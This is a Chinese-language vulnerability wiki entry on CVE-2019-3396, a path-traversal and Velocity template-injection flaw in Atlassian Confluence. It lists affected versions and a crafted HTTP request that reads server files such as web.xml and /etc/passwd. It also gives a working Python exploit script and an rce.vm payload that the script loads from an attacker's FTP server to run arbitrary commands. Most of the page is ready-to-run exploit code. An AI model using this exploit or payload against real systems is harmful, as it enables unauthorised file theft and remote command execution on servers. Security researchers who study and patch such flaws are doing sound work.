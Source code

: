 （CVE-2019-3396）Confluence 路径穿越与命令执行漏洞
==================================================

一、漏洞简介
------------

Atlassian
Confluence是企业广泛使用的wiki系统，其6.14.2版本前存在一处未授权的目录穿越漏洞，通过该漏洞，攻击者可以读取任意文件，或利用Velocity模板注入执行任意命令。

二、漏洞影响
------------

    Confluence 1.*.*、2.*.*、3.*.*、4.*.*、5.*.*

    Confluence 6.0.*、6.1.*、6.2.*、6.3.*、6.4.*、6.5.*

    Confluence 6.6.* < 6.6.12

    Confluence6.7.*、6.8.*、6.9.*、6.10.*、6.11.*

    Confluence 6.12.* < 6.12.3

    Confluence 6.13.* < 6.13.3

    Confluence 6.14.* < 6.14.2

三、复现过程
------------

发送如下数据包，即可读取文件`web.xml`：

    POST /rest/tinymce/1/macro/preview HTTP/1.1
    Host: localhost:8090
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Referer: http://localhost:8090/pages/resumedraft.action?draftId=786457&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&
    Content-Type: application/json; charset=utf-8
    Content-Length: 176

    {"contentId":"786458","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc6","width":"1000","height":"1000","_template":"../web.xml"}}}

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-3396)Confluence路径穿越与命令执行漏洞/media/rId24.png)

6.12以前的Confluence没有限制文件读取的协议和路径，我们可以使用`file:///etc/passwd`来读取文件，也可以通过`https://...`来加载远程文件。

该文件是一个Velocity模板，我们可以通过模板注入（SSTI）来执行任意命令：

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-3396)Confluence路径穿越与命令执行漏洞/media/rId25.png)

### poc

> 首先需要一台外网的服务器

    1.使用FTP加载vm文件  
    2.修改filename为自己的vm文件路径，例如 filename = "ftp://192.168.50.181/rce.vm"  
    3.python CVE-2019-3396.py [http://ip:port](http://ip) "whoami"

> CVE-2019-3396.py

    # -*- coding: utf-8 -*-
    import re
    import sys
    import requests

    def _read(url):
        result = {}
        # filename = "../web.xml"
        filename = 'file:////etc/group'

        paylaod = url + "/rest/tinymce/1/macro/preview"
        headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0",
            "Referer": url + "/pages/resumedraft.action?draftId=12345&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&",
            "Content-Type": "application/json; charset=utf-8"
        }
        data = '{"contentId":"12345","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc5","width":"1000","height":"1000","_template":"%s"}}}' % filename
        r = requests.post(paylaod, data=data, headers=headers)
        # print r.content
        if r.status_code == 200 and "wiki-content" in r.text:
            m = re.findall('.*wiki-content">n(.*)n            </div>n', r.text, re.S)

        return m[0]

    def _exec(url,cmd):
        result = {}
        filename = "ftp://192.168.50.181/rce.vm"

        paylaod = url + "/rest/tinymce/1/macro/preview"
        headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0",
            "Referer": url + "/pages/resumedraft.action?draftId=12345&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&",
            "Content-Type": "application/json; charset=utf-8"
        }
        data = '{"contentId":"12345","macro":{"name":"widget","body":"","params":{"url":"http://www.dailymotion.com/video/xcpa64","width":"300","height":"200","_template":"%s","cmd":"%s"}}}' % (filename,cmd)
        r = requests.post(paylaod, data=data, headers=headers)
        # print r.content
        if r.status_code == 200 and "wiki-content" in r.text:
            m = re.findall('.*wiki-content">n(.*)n            </div>n', r.text, re.S)

        return m[0]

    if __name__ == '__main__':
        url = sys.argv[1]
        cmd = sys.argv[2]
        print _exec(url,cmd)

> rce.vm

    #set ($e="exp")
    #set ($a=$e.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec($cmd))
    #set ($input=$e.getClass().forName("java.lang.Process").getMethod("getInputStream").invoke($a))
    #set($sc = $e.getClass().forName("java.util.Scanner"))
    #set($constructor = $sc.getDeclaredConstructor($e.getClass().forName("java.io.InputStream")))
    #set($scan=$constructor.newInstance($input).useDelimiter("\A"))
    #if($scan.hasNext())
        $scan.next()
    #end

参考链接
--------

> https://vulhub.org/\#/environments/confluence/CVE-2019-3396/
